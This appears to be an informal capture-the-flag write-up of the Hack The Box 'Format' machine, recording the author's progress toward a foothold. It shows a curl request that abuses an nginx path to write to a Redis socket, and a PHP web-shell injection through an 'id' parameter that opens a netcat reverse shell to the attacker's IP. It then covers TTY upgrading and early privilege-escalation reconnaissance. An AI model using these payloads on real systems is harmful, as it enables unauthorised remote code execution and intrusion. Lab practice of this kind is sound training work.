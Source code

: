 This is the petition i think .. to that path where IS THE USER 
```
/static/unix:%2fvar%2frun%2fredis%2fredis.sock:testy%20pro%20true%20a/b"
```


So... I did this

```
┌──(cds㉿kali)-[~/Documents/htb/10.10.11.213-format/content]
	└─$ curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:test%20pro%20true%20a/b
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```

And I have the pro and now I can put images .... but it is a rabbit hole the way to get a reverse shell is different on we must inject code on the parameter ID , of course this was a hint for me , this machine is resulting very frustrating.. but on the process I'm learning new concepts. Hacking is not necessarily easy.... I think this is the opposite. 

```
id=/var/www/microblog/test/uploads/rev.php&txt=<%3fphp+echo+shell_exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.16.35+443+>/tmp/f")%3b%3f>
```


So... i think this of the get the "pro" was a rabbit hole to.

Ok, after a biiig strugle I get the reverse shell, that is because when you add the /rev.php file you must go then to the folder where is uploaded. This is on test.microblog.htb/uploads/rev.php 

If you dont go there the reverse shell never executes itself ... now we must set a decent tty.

script -c /dev/null

stty raw -echo ; fg

reset xterm

export TERM=xterm

now we have a cli more friendly

This isnt work, maybe python3 -c 'import pty;pty.spawn("/bin/bash")'


/home/cooper/user.txt
Ok, I can go to the cooper user folder but I cant read the flag of the user.txt


I execute the pspy on the machine.. first I put the file with a python server fom my machine and im watching the process on the machine...

sudo -l doesnt give me nothing.. i have no password

id , im in no group, and i have no permisions
